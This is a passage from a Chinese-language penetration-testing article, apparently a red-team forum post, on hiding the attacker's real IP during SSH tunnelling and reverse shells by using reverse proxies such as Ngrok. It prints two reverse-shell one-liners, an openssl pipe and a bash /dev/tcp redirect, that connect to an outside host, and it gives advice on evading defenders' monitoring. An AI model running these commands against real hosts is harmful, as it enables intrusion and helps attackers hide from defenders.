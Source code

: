 ​ 这里我们可以着重看一下箭头所指的地方，通过 SSH 隧道代理的方式，抛开我们 VPS 用户密码被监测到不谈，真实 IP 也一览无余的在网络进程以及相关连接中，老道的防守方成员可以很直观的发现是一起\*\*【SSH 隧道代理事件】\*\*，但是这里也不是我们所需要关注的，毕竟我们不能把所有防守方当傻子，要正视对手的能力。

[![](assets/1698900815-1b9818a3a02d11c372db3df4f1332dd4.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-472fe89ef1fb2bf2aff7c7448b163d47081d9245.png)

​ 这里我们采取 Nginx 反向代理的方式，具体实现方式这里不多赘述，感兴趣的同学可以关注 Ngrok 或者 Heroku 等方式的配置，也可以自己使用匿名域名及服务器搭建。

​ 通过上图我们可以看到使用反向代理的地址进行 SSH 隧道转发可以有效的隐匿真实的 IP 地址以及 IP 地址，注意这里的 IP 地址是 Ngrok 服务器的地址，从而实现了隐匿的效果。

# 反弹 shell 隐匿

​ 在我们日常渗透 Linux 主机的时候，当碰到 RCE 漏洞的时候，需要进行反弹获取交互 shell 的时候，通常都会使用以下两条命令。

例 1:

```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.100:2333 > /tmp/s; rm /tmp/s
```

例 2:

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.0.100/2333 <&1'
```

​ 以上的两个例子可以说是我们日常渗透中最常用的两条反弹 shell 命令，当然例 1 的优点是他的流量是进行了加密的，在这种情况下反弹 shell 执行的命令是无法被流控监测到的，最多可能会报 **隐蔽隧道通信** 的异常事件，但是这种事件对于一个有一定规模的值守单位，真的是太正常了。每天都会发生成千上万起类似的误报，而像向日葵、teamview 这一类的报警基本都是直接忽略的。

​ 但是我们所需要注意的也正是这样的反弹方式，无论是例 1 还是例 2 我们都会发现都是不可避免的泄露了真实 IP 地址。其实这里的隐匿方式与上面的 SSH 隧道代理的原理是一样的。都是通过了反向代理的方式实现的，之前的文章中的渗透操作中也有使用这样的方式，然后有师傅咨询过，所以这里再拿出来冷饭热炒一下。

[![](assets/1698900815-7668f49f634538b80510b0318cf07b17.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4f15580cb05b6fc76ee0dddbba679cb8890458d3.png)
